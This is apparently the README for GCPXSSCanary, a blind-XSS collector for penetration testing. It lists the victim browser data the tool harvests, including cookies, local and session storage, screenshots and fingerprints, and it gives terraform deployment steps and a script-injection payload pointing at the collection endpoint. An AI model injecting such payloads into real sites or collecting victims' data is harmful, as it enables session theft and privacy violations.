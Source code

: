# GCPXSSCanary

GCPXSSCanary is a tool that can be used to collect blind-xss victim browser details, stored in GCP, and notified in a communication channel such as Slack or Google Chat. This tool was written to slightly improve on other similar tools, such as SleepyPuppy, xless, BeEF, and others by providing a terraform build process for serverless generation as well as securely storing screenshots within cloud storage, rather than a public image host. 

For additional details, refer to the accompanying blog post.

## Collection Data Points

- URL
- User-Agent
- HTTP Referrer
- Origin
- Document Location
- Browser DOM
- Browser Time
- Cookies (Without HTTPOnly)
- LocalStorage
- SessionStorage
- IP Address
- Screenshot
- Browser Unique Fingerprint

## Deployment

First, create two secrets within GCP for your slack tokens. These should have the values of:

`<GCP Project Name>-slack-channel`

and 

`<GCP Project Name>-slack-secret`

Next, modify the main.tf file to contain your GCP project name and then initialize, plan, and deploy the terraform project. 

`terraform init`

`terraform plan`

`terraform apply`

## Usage

A successful deployment will generate a URL within GCP for collection. Several collection methods exist within the JavaScript to enable/disable features such as screenshot collection etc. Standard usage is to include the / endpoint as part of a script or eval.

`<script src='<Cloud Function URL>'/>`

Once a victim executes this payload, the collection methods will fire and be sent back to the cloud function for storage and notification. View the data within slack.